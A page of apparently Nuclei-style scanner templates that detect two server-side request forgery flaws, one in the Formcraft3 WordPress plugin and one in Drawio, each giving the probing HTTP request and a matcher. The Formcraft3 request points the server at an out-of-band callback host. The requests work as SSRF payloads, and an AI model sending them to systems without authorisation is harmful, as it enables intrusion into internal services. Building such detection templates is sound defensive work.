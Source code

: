 - Formcraft3 before version 3.8.2 does not validate the URL parameter in the formcraft3_get AJAX action, leading to server-side request forgery issues exploitable by unauthenticated users.
- severity - critical
- tags - wp,wp-plugin,wordpress,cve,formcraft3,wpscan,ssrf,cve2022,unauth

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-admin/admin-ajax.php?action=formcraft3_get&URL=https://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Drawio \<18.0.4 - Server-Side Request Forgery

## Description

- Drawio prior to 18.0.4 is vulnerable to server-side request forgery. An attacker can make a request as the server and read its contents. This can lead to a leak of sensitive information.

- severity - high
- tags - drawio,ssrf,oss,huntr,cve,cve2022

## Requests

### Step - 1

```
GET /proxy?url=http%3a//0:8080/ HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. \<title>Flowchart Maker & Online Diagram Software\</title>

**Type - word**
